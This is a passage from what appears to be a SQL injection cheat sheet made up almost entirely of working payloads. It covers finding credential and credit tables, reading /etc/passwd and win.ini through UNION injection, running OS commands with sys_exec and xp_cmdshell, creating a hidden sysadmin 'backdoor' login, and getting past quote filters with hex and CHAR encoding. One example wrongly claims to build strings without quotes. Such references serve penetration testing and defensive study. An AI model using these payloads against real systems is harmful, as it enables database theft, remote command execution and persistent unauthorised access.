 ### Find Sensitive Data

```sql
SELECT * FROM information_schema.tables WHERE table_name LIKE '%credit%';
SELECT * FROM information_schema.columns WHERE column_name LIKE '%pass%';
```

### Reading Sensitive Files

```sql
# MySQL
' UNION SELECT LOAD_FILE('/etc/passwd')-- -

# MSSQL
' UNION SELECT * FROM OPENROWSET(BULK 'C:/windows/win.ini', SINGLE_CLOB) AS x-- -
```

### Command Execution

Executing system commands:

```sql
# MySQL
' UNION SELECT sys_exec('whoami')-- -

# MSSQL
'; EXEC xp_cmdshell 'whoami'-- -
```

### Establishing Persistence

Creating backdoor accounts:

```sql
# Create admin user
' UNION SELECT 'EXEC sp_addlogin ''backdoor'', ''password123''; EXEC sp_addsrvrolemember ''backdoor'', ''sysadmin'';'-- -
```

## Bypass Techniques

### Quote Bypass

Used when applications block or filter quote characters (`'` or `"`). These are essential for string-based SQL injection:

```sql
# Standard query that would be blocked:
SELECT * FROM users WHERE username = 'admin'

# Hex encoding - Bypasses quote filters by encoding the entire string
SELECT * FROM users WHERE username=0x61646D696E  # 'admin' in hex
# Useful when: Quotes are completely blocked but hex values are allowed

# Character manipulation - Builds strings without quotes
SELECT CONCAT('a','dmin')  # Builds 'admin' by concatenation
SELECT CHAR(65,68,77,73,78)  # Builds 'ADMIN' using ASCII values
# Useful when: Quotes are filtered but string functions are allowed
```

